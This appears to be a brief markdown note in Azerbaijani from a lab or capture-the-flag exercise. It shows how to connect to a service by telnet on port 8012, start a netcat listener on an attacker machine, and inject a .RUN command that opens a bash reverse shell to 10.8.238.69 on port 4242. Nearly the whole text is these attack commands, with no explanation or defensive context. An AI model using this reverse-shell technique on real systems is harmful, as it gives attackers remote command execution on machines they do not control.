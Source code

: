 ## telnet ile qosulduqdan sonra (default 8012 port) 
    telnet ip adress {port}
## netcat ile 
## oz atack masinimizda
    nc -nvlp 4242 
## telnet ile qosulduqumuz 
    .RUN /bin/bash -c  'bash -i >& /dev/tcp/10.8.238.69/4242 0>&1'
